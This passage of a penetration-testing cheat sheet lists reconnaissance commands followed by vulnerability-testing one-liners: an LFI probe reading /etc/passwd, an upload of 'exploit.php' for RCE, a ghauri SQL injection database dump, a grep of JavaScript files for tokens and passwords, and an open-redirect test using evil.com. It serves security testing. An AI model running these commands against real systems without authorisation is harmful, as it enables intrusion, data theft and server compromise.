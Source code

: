 ### **3.5 ASN Mapping**

**🛠️Tools:** [Amass](https://github.com/OWASP/Amass), [Shodan](https://www.shodan.io/), [Censys](https://censys.io/)

**ASN Lookup**
```bash
amass intel -asn <ASN_Number> -o asn_ips.txt
```

**Shodan Enumeration**
```bash
shodan search "net:<ip_range>" --fields ip_str,port --limit 100
```

**Censys Asset Search**
```bash
censys search "autonomous_system.asn:<ASN_Number>" -o censys_assets.txt
```

---

<br>


## **4. Vulnerability Testing**

### **4.1 High-Priority Vulnerabilities**

**🐞CSRF Testing**
```bash
cat live_websites.txt | gf csrf | tee csrf_endpoints.txt
```

**🐞LFI Testing**
```bash
cat live_websites.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I@ curl -s @ | grep "root:x:" > lfi_results.txt
```

**🐞RCE Testing**
```bash
curl -X POST -F "file=@exploit.php" https://target.com/upload
```

**🐞SQLi Testing**
```bash
ghauri -u "https://target.com?id=1" --dbs --batch
```

**🐞Sensitive Data Search**
```bash
cat js_files.txt | grep -Ei "key|token|auth|password" > sensitive_data.txt
```

**🐞Open Redirect Test**
```bash
cat urls.txt | grep "=http" | qsreplace "https://evil.com" | xargs -I@ curl -I -s @ | grep "evil.com"
```

---